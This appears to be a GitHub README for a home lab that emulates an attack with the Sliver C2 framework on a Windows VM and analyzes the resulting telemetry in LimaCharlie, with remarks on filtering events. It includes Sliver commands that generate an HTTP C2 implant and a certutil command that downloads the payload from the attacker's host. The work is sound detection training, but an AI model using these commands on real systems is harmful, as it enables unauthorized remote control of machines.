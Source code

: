 

  <h1>Project: Exploring Attack and Detection with Lima Charlie, Sigma, & Sliver</h1>

  <h2>Introduction</h2>
  <p>This  project focuses on the exploration of deploying and analyzing a cyber-attack scenario using Lima Charlie. The blog series, consisting of Part 1 and Part 2, provides detailed instructions and insights into the process. Part 1 covers the initial setup of the environment, including the installation of Sliver to emulate an attacker. Part 2 delves into the practical aspects of the attack, from creating a command and control (C2) payload to analyzing the system traffic in Lima Charlie.</p>

  <h2>Environment</h2>
  <p>The project utilizes the following setup for simulation:</p>
  <ul>
    <li>Attacker Machine: Linux Ubuntu Server</li>
    <li>Victim Machine: Windows 10</li>
    <li>Analysis Tool: Lima Charlie</li>
    <li>Attack Tool: Sliver</li>
    <li>Rule Creation Tool: Sigma</li>
  </ul>

  <h2>Lima Charlie Overview</h2>
  <p>Lima Charlie is introduced as a user-friendly cloud-based security tool that simplifies security monitoring without the need for complex integrations. Drawing comparisons with previous experiences in setting up ELK SIEM, the author notes the ease of Lima Charlie's setup and its convenience in filtering specific information.</p>

  <h2>Project Workflow</h2>
  <ol>
    <li><strong>Creating C2 Payload on Linux VM</strong>
      <ul>
        <li>Using Sliver on the Linux machine to generate a C2 session payload.</li>
        <li>Commands:
          <pre>
            sliver-server # starting the server
            generate --http [Linux_VM_IP] --save /opt/sliver # generating C2 session payload
          </pre>
        </li>
      </ul>
    </li>
    
  <li><strong>Transferring Payload and Executing on Windows</strong>
      <ul>
        <li>Setting up a Python server on Linux for payload transfer.</li>
        <li>Using PowerShell on Windows to download and execute the payload.</li>
        <li>Commands:
          <pre>
            python3 -m http.server 80 # start Python server
            certutil.exe -f -urlcache http://[Linux_VM_IP]/GERMAN_HEADLINE.exe german_headline.exe # transfer payload
          </pre>
        </li>
      </ul>
    </li>

  <li><strong>Upon closing the python server in the linux machine, we will now start the sliver-server to receive the call back.</strong>
      <ul>
        <li>Starting the server</li>
        <li>Setting up listener</li>
        <li>Commands:
          <pre>
            sliver-server 
            http
          </pre>
        </li>
      </ul>
    </li>

  <li><strong>Now time to go into Lima Charlie to see the noise!</strong>
      <ul>
        <li>Going into the sensors tab, I can see that my windows machine is online</li>
        <li>Viewing your sensor that was installed, I liked that you could isolate the device from the network at the click of a button. Containing the problem at such ease is great for response and which is a process I’m sure could be automated within Lima Charlie.</li>
        <li>You’ll also be able to see things like the private / public IP, mac address, etc</li>
        <li>You can also view the entire file system, the device network, and basically everything about the device while the Lima Charlie sensor is installed on the device that you want to monitor.</li>
      </ul>
    </li>

  <li><strong>Going into timeline we can see plenty of noise that’s happening on the system. Tracking our c2 instance, we can find the exact time that we downloaded and executed it</strong>
      <ul>
        <li>time it was downloaded then executed moments later when looking through logs</li>
        <li>One event was also labeled as SENSITIVE_PROCESS_ACCESS very close to the event of a network connection with the c2 server. This could be because of the enumeration of privileges we were doing and when running commands through sliver.</li>
      </ul>
    </li>

  <li><strong>All in all, there’s many different way to see and track down what is happening. Given we had the IP that the process was connecting to, we could have also filtered our search results with the malicious IP that we’re using to emulate an attacker.</strong>
      <ul>
        <li>Given there’s plenty of noise that happens in the background of a windows machine, it’s probably a good idea to get familiar with the native processes within windows in order to have a better understanding of what’s normal and what isn’t. This is some of the advice given in the blog post referenced at the very beginning of this post.</li>
        <li>If I had to give any constructive criticism, I’d say that filtering through all the events is a bit too much. I am used to working with a SIEM that allows you to filter for commands ran and having the option to only view events where a command ran exists.</li>
        <li>For example, when filtering for sensitive process access events, I had to scroll quite a bit in order to see that it was involved with our c2 instance.</li>
        <li>The scroll bar on the bottom shows I scrolled about halfway through. Given all the JSON formatted objects, it’s quite a bit to scroll through.</li>
        <li>But Lima Charlie is new to me so maybe after some tinkering, I’ll get used to it and learn all the tricks.</li>
      </ul>
    </li>
  </ol>

  <h2>Recommendations and Conclusion</h2>
  <p>The blog post concludes with recommendations for analysts, emphasizing the importance of understanding native Windows processes to distinguish between normal and malicious activities. Constructive criticism is provided regarding event filtering in Lima Charlie, with potential improvements suggested for enhancing user experience.</p>

  <p>Feel free to refer to the original blog series for a detailed walkthrough and further insights.</p>

  <hr>

  <p><em>Note: This README provides an overview of the GitHub project structure and content. Refer to the original blog series for detailed instructions and insights.</em></p>
